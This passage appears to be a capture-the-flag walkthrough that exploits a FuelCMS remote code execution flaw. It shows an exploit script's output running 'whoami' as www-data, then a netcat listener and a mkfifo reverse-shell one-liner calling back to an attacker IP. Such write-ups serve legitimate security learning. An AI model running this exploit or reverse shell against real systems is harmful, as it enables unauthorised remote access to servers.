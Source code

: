 ```
 
    begin = r.text[0:20]
    dup = find_nth_overlapping(r.text,begin,2)
 
    print r.text[0:dup]
```

We need to just change the target IP value and execute the script.

```
┌─[tester@parrot-virtual]─[~/Downloads/ignite]
└──╼ $python exploit.py 
cmd:whoami
systemwww-data

<div style="border:1px solid #990000;padding-left:20px;margin:0 0 10px 0;">

<h4>A PHP Error was encountered</h4>

<p>Severity: Warning</p>
<p>Message:  preg_match(): Delimiter must not be alphanumeric or backslash</p>
<p>Filename: controllers/Pages.php(924) : runtime-created function</p>
<p>Line Number: 1</p>


	<p>Backtrace:</p>
			<p style="margin-left:10px">
			File: /var/www/html/fuel/modules/fuel/controllers/Pages.php(924) : runtime-created function<br />
			Line: 1<br />
			Function: preg_match			</p>

			<p style="margin-left:10px">
			File: /var/www/html/fuel/modules/fuel/controllers/Pages.php<br />
			Line: 932<br />
			Function: array_filter			</p>

			<p style="margin-left:10px">
			File: /var/www/html/index.php<br />
			Line: 364<br />
			Function: require_once			</p>
</div>
```

We do get an RCE and as shown above after running the command `whoami` it returns a response of `systemwww-data`. But along with that we get an HTML code as well in the result along with the desired output. To resolve this issue, we can pop another shell using netcat. 

To do so, we need to first start a listener on our attacker machine using the command: `nc -nvlp 4444` and run the following command on the target machine: 

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker_machine_IP> 4444 >/tmp/f
```
